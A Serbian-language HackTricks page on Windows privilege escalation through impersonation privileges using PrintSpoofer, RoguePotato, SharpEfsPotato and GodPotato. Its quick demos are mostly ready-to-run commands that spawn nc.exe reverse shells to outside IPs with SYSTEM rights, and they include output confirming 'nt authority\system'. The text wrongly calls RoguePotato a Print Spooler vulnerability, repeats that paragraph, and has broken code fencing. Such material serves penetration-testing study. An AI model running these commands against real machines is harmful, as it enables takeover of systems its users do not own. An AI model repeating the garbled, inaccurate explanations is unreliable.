 # RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

{% hint style="warning" %}
**JuicyPotato ne radi** na Windows Serveru 2019 i Windows 10 verziji 1809 i novijim. Međutim, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato) mogu se koristiti za **iskorišćavanje istih privilegija i dobijanje pristupa na nivou `NT AUTHORITY\SYSTEM`**. Ovaj [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) detaljno objašnjava alat `PrintSpoofer`, koji se može koristiti za zloupotrebu privilegija impersonacije na Windows 10 i Server 2019 hostovima gde JuicyPotato više ne radi.
{% endhint %}

## Brza demonstracija

### PrintSpoofer

```bash
c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```

RoguePotato je tehnika eskalacije privilegija koja iskorišćava ranjivost u Windows Print Spooler servisu. Ova tehnika omogućava napadaču da dobije sistemski nivo privilegija na ciljnom računaru.

Da bi se iskoristila ova ranjivost, napadač mora imati lokalni pristup ciljnom računaru. Prvo, napadač mora da preuzme i pokrene RoguePotato exploit. Ovaj exploit koristi ranjivost u Print Spooler servisu da bi kreirao lažni print server. Kada se lažni print server pokrene, napadač može da izvrši proizvoljan kod sa sistemskim privilegijama.

RoguePotato je posebno opasan jer se izvršava sa sistemskim privilegijama, što znači da napadač ima potpunu kontrolu nad ciljnim računarom. Ova tehnika može biti korišćena za instaliranje zlonamernog softvera, krađu podataka ili izvršavanje drugih napada na ciljnom računaru.

Da bi se zaštitili od RoguePotato napada, preporučuje se ažuriranje sistema sa najnovijim zakrpama i isključivanje Print Spooler servisa ako nije neophodan. Takođe je važno ograničiti pristup lokalnim računima i pratiti sumnjive aktivnosti na mreži.

```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999
```

```
```

\`\`\` SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log" SharpEfsPotato by @bugch3ck Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

\[+] Triggering name pipe access on evil PIPE \localhost/pipe/c56e1f1f-f91c-4435-85df-6e158f68acd2/\c56e1f1f-f91c-4435-85df-6e158f68acd2\c56e1f1f-f91c-4435-85df-6e158f68acd2 df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc: \[x]RpcBindingSetAuthInfo failed with status 0x6d3 \[+] Server connected to our evil RPC pipe \[+] Duplicated impersonation token ready for process creation \[+] Intercepted and authenticated successfully, launching program \[+] Process created, enjoy!

C:\temp>type C:\temp\w.log nt authority\system

```
### RoguePotato

RoguePotato je tehnika eskalacije privilegija koja iskorišćava ranjivost u Windows Print Spooler servisu. Ova tehnika omogućava napadaču da dobije sistemski nivo privilegija na kompromitovanom sistemu.

Da bi se iskoristila ova ranjivost, napadač mora imati lokalni pristup sistemu. Prvo, napadač mora da pokrene RoguePotato exploit, koji će zatim iskoristiti ranjivost u Print Spooler servisu. Kada se ranjivost iskoristi, napadač će dobiti sistemski nivo privilegija.

Ova tehnika je posebno opasna jer napadač može iskoristiti RoguePotato exploit da bi preuzeo kontrolu nad sistemom i izvršavao proizvoljni kod sa sistemskim privilegijama. To znači da napadač može da instalira zlonamerni softver, pristupi osetljivim podacima ili čak preuzme kontrolu nad celokupnim mrežnim okruženjem.

Da biste se zaštitili od RoguePotato napada, preporučuje se ažuriranje sistema sa najnovijim zakrpama i isključivanje Print Spooler servisa ako nije neophodan za vaše poslovanje. Takođe, trebali biste pratiti bezbednosne vesti i preporuke proizvođača kako biste bili informisani o najnovijim ranjivostima i merama zaštite.
```

GodPotato -cmd "cmd /c whoami" GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

```
## Reference
* [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
* [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato)
* [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
```
